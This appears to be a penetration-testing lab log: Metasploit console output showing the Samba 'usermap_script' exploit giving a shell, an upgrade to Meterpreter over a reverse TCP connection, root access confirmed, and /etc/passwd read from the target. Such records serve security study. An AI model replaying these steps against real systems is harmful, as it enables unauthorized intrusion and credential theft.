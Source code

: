```
msf6 exploit(multi/samba/usermap_script) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               10.10.21.2:4444 -> 10.0.27.245:46630  (10.0.27.245)

msf6 exploit(multi/samba/usermap_script) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.21.2:4433 
[*] Sending stage (984904 bytes) to 10.0.27.245
[*] Meterpreter session 2 opened (10.10.21.2:4433 -> 10.0.27.245:56004 ) at 2023-05-16 13:37:27 +0530
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/samba/usermap_script) > sessions

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         shell cmd/unix                            10.10.21.2:4444 -> 10.0.27.245:46630  (10.0.27.245)
  2         meterpreter x86/linux  root @ 172.17.0.2  10.10.21.2:4433 -> 10.0.27.245:56004  (172.17.0.2)
```

```
msf6 exploit(multi/samba/usermap_script) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 8.04 (Linux 5.4.0-1048-aws)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: root
meterpreter > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```